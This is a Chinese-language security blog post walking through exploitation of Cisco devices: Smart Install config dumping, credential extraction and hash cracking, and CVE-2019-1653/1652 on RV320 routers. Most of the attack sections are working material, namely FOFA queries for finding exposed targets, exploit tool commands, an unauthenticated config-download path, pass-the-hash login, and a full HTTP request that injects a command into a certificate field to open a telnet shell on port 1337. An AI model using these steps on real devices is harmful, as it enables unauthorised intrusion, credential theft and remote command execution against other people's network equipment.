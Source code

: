 ```yaml
---

title: "[技术]cisco设备信息泄漏漏洞案例"
date: 2022-10-21T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"

---
```


近期遇到了几个cisco配置信息泄漏的案例，借此机会复现下cisco常见的几个漏洞。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA
{{% /admonition %}}

<!--more-->

---

## cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放4786端口的cisco设备，那可以深入测试一下。

fofa 语句 *protocol="smi"*

![Untitled](../../img/cisco-case/Untitled.png)

影响目标还挺多的

```
git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit
cd CiscoSmartInstallExploit
pip2 install tftpy
python2 cisco.py [ip]
```

注意用python2运行,运行成功会下载目标的运行配置

![Untitled](../../img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL配置，ftp配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

```
git clone https://github.com/frostbits-security/ccat.git
cd ccat
pip3 install -r requirements.txt
python3 ccat.py configuration_file
```

![Untitled](../../img/cisco-case/Untitled%202.png)

我们可以使用 **--dump-creds** 参数dump出账号密码

![Untitled](../../img/cisco-case/Untitled%203.png)

文件名m500的可以用hashcat -m 500的掩码进行爆破,5700同理

![Untitled](../../img/cisco-case/Untitled%204.png)

---

## CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app="CISCO-RV320”

对应poc

```
ip:port/cgi-bin/config.exp
```

![Untitled](../../img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和md5的密码,不过md5的格式为 `md5($password.$auth_key)`，其中 auth_key 是一个静态值，可以通过直接访问 / 路径找到。

![Untitled](../../img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和md5的密码后可以通过替换登录包的hash进行登录,无需解密

![Untitled](../../img/cisco-case/Untitled%207.png)

![Untitled](../../img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github上的利用poc由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

```
POST /certificate_handle2.htm?type=4 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 319

page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b
```

payload执行后会用telnet在本地监听1337口

连接验证

![Untitled](../../img/cisco-case/Untitled%209.png)

---

## 总结

1. cisco设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2. python的poc经常会遇到一些历史遗留问题，比如tls版本过低，依赖库安装报错不兼容等等问题，建议还是用go写poc，利人利己。
